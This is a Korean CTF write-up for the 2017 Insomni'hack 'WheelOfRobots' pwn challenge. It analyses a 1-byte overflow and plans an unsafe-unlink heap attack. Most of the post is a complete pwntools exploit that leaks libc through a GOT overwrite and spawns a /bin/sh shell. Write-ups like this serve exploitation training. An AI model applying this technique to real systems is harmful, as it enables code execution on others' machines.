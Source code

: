 ```yaml
---
layout: post
title: "[2017_Insomni'hack] WheelOfRobots 풀이"
date: 2018-09-26 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>[WheelOfRobots](https://github.com/pwnwiz/CTF/raw/master/WheelOfRobots/WheelOfRobots) 

으어

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2017_Insomni'hack/WheelOfRobots/01.png)
{: refdef}

`func_add`

1. 로봇 선택 (이때 `1byte overflow` 발생)

2. `2`, `3`, `6` 일 경우 로봇의 특성 값 같은걸 입력

3. 로봇의 이름만큼 할당받고 그 안에 이름이 들어감<br /><br />

4. `robot_count` 증가

`func_delete`

1. 로봇 선택

2. `flag` 값이 존재하면 `free(robot_name)`, `robot_count` 감소<br /><br />

`func_change`

1. 로봇 선택

2. `flag` 값이 존재하면 해당 로봇의 이름만큼 `read`<br /><br />

`func_start`

1. `robot_count`가 2 초과인지 확인 아닐시 `return`

2. `sub_4015BD(6)`의 결괏값과 `robot_flag` 값을 가지고 특정 함수 실행 (별로 안 중요)

3. `exit(1)`<br /><br />

`robot_list`

{: refdef: style="text-align: center;"}
![robot_list](/img/2017_Insomni'hack/WheelOfRobot/02.png)
{: refdef}

이 문제는 `robot_name`, `robot_flag`, `robot_len`까지 다 `bss`에 저장돼 있어요.

- - -
# 0x01. 공격 방법

`func_add`의 **1**을 보면 `1byte overflow`가 발생하는데 해당 버퍼를 보면 `robot_2_flag`의 값을 바꿀 수 있어요.

그래서 `robot_2`를 가지고 `unsafe_unlink`를 사용할 거에요.

`robot_2`는 `fastbin`이라서 `fastbin_dup_consolidate`을 사용할 수 있어요.

1. `func_add(2)` input = `2`

2. `func_add(4)`

3. `func_delete(2)`

4. `func_add(5)`, `robot_2_flag = 1`

5. `func_change(2)`를 사용해 `fake_chunk`를 만듦

6. `func_delete(4)` -> `robot_2`의 `fake_chunk`에서 `unlink` 실행

7. `robot_2_name`의 주소가 `robot_2_name - 0x18`로 바뀜

8. `func_change(2)`로 `robot_2_name - 0x18`부터 `0x28`만큼 데이터를 바뀌서 `system(/bin/sh)` 실행

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./WheelOfRobots")
libc = ELF("./libc.so.6")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
free_got = elf.got["free"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

robot_4_name = 0x6030E0
robot_2_name = 0x6030F0
robot_2_flag = 0x603114

def func_add(index):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Your choice :")
    s.sendline(index)

def func_delete(index):
    s.recvuntil("Your choice : ")
    s.sendline("2")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

def func_change(index, content):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

    s.recvuntil("Robot's name: ")
    s.send(content)

func_add(str(2))
s.sendline("2")
func_add(str(4))

func_delete(2)
func_add("5" + "\x00\x00\x00" + "\x01")

payload = p64(0x0)
payload += p64(0x20)
payload += p64(robot_2_name - 0x18)
payload += p64(robot_2_name - 0x10)
payload += p64(0x20)
func_change(2, payload)

func_delete(4)

payload = p64(0x0)*3
payload += p64(robot_4_name) # robot_2_name
func_change(2, payload)

payload = p64(free_got) # robot_4_name
payload += p64(puts_got) # robot_6_name
payload += p64(robot_2_flag) # robot_2_name
func_change(2, payload)

payload = p32(0x1)*3 # robot_2, 4, 6 flag
func_change(2, payload)

func_change(4, p64(puts_plt))
func_delete(6) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_change(4, p64(libc_system))
func_change(2, "/bin/sh\0")
func_delete(2)

s.interactive()
```
